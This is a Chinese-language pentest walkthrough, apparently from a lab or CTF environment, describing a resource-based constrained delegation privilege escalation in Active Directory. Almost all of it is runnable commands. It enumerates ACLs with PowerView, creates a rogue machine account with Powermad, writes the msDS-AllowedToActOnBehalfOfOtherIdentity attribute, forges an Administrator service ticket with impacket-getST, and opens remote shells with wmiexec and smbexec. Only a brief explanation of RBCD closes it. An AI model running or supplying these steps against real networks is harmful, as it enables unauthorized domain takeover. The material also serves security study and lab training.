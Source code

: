 <!-- https://blog.csdn.net/longlangci/article/details/131686439 -->

- 前提: `GenericWrite` 权限/`ACCOUNT OPERATORS组`

```bash
# 1. 枚举一下当前用户（lixiuying）对当前机器的DACL。
Import-Module .\PowerView.ps1
Get-DomainUser -Identity lixiuying -Properties objectsid
Get-DomainObjectAcl -Identity XR-0687 | ?{$_.SecurityIdentifier -match "S-1-5-21-3745972894-1678056601-2622918667-1131"}
## 看到 GenericWrite 权限 可以修改 XR-0687的任何属性, 可通过 RBCD 提权.
```

- 2.PowerMad 创建新的计算机账号 Test1$，密码 Test1234。

```ps1
Import-Module .\Powermad.ps1
# 设置机器账户的密码
$Password = ConvertTo-SecureString 'Test1234' -AsPlainText -Force
# 通过Net-MachineAccount函数创建机器账户
New-MachineAccount -MachineAccount "Test1" -Password $($Password) -Domain "xiaorang.lab" -DomainController "XR-DC01.xiaorang.lab" -verbose
```

- 3.通过 PowerView1 设置RBCD (Test1 到 XR-0687 的基于资源的约束性委派)

```ps1
# 将Test1的SID添加到XR-0687这台计算机对象的msDS-AllowedToActOnBehalfOfOtherIdentity属性中。

Import-Module .\PowerView.ps1
# 获取Test1账户的 SID
Get-NetComputer "Test1" -Properties objectsid
# 尝试配置Test1到XR-0687的基于资源的约束性委派
$A = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-3745972894-1678056601-2622918667-1147)"
$SDBytes = New-Object byte[] ($A.BinaryLength)
$A.GetBinaryForm($SDBytes, 0)
Get-DomainComputer XR-0687 | Set-DomainObject -Set @{'msDS-AllowedToActOnBehalfOfOtherIdentity'=$SDBytes} -Verbose
# 查看是否配置成功
Get-DomainComputer XR-0687 -Properties msDS-AllowedToActOnBehalfOfOtherIdentity

# 在/etc/hosts中配置IP域名的映射关系
## 172.22.60.15 PC1.xiaorang.lab
```

# 4.用 Test1 账户申请 XR-0687 机器上的CIFS服务的高权限票据。
```ps1
sudo vim /etc/hosts # 配置ipo
172.22.15.35 XR-0687.xiaorang.lab
proxychains4 impacket-getST xiaorang.lab/Test1\$:Test1234 -dc-ip 172.22.15.13 -spn cifs/XR-0687.xiaorang.lab -impersonate Administrator

# 使用申请的票据获取XR-0687这台机器的本地管理员权限。
export KRB5CCNAME=Administrator.ccache
proxychains4 impacket-wmiexec -k xiaorang.lab/Administrator@XR-0687.xiaorang.lab -no-pass
## 不填用户名好像也行
proxychains4 impacket-smbexec -no-pass -k PC1.xiaorang.lab
```

# 介绍

基于资源的约束委派

- 基于资源的约束委派 (Resource-Based Constrained Delegation， RBCD) 是在 Windows Server 2012 中新引入的功能。与传统的约束委派相比，它将设置委派的权限交换给了服务资源自身，也就是说服务自己可以决定“谁可以对我进行委派”。基于资源的约束委派的关键在于 `msDS-AllowedToActOnBehalfOfOtherIdentity` 属性的设置。
